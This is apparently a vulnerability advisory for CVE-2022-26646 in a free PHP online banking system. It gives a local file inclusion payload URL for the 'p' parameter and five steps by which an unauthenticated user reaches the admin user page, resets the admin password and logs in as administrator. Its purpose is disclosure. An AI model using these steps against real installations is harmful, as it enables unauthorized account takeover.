 # Tittle: Online Banking System LFI.

### Author: (Erik451)
### Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
### Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
## Version: OBS 1.0
## CVE: <a href="https://cve.reconshell.com/cve/CVE-2022-26646" target="_blank">CVE-2022-26646</a>
-   Description: The parameter "p" and "page" includes files. An unauthenticated user can read internal php files of the web. LFI to Privilege Escalation
-   Null session account to admin
-   Payload used: `http://web.com/banking/?p=<any_phpfile>`

### **Steps to reproduce:**

- 1- Go to home page [http://localhost/banking/?p=about](http://localhost/banking/?p=about)

![nullsession](https://user-images.githubusercontent.com/47476901/160772671-238ab371-036f-4763-aac5-f2d59aca42ad.png)

- 2- Load the admin user page [http://localhost/banking/?p=admin/user/index](http://localhost/banking/?p=admin/user/index)

![adminpage](https://user-images.githubusercontent.com/47476901/160772705-978e6fc1-a2b5-439a-85f2-cd2959267bf4.png)


- 3- Change the admin password

![changepass](https://user-images.githubusercontent.com/47476901/160647853-084108de-0592-4c79-8d3a-f7a1d3692466.png)

- 4- Login as administrator

![login](https://user-images.githubusercontent.com/47476901/160647880-c00a310c-ca03-4fef-839f-0131122ee50d.png)


- 5- Admin panel

![adminpanel](https://user-images.githubusercontent.com/47476901/160647820-d55df39c-9287-4bd5-8214-e10558e8aa09.png)


#### Other Payload:
Reading info.php

![infophp](https://user-images.githubusercontent.com/47476901/160773672-89489f95-973e-490c-b331-a36128103ef0.PNG)

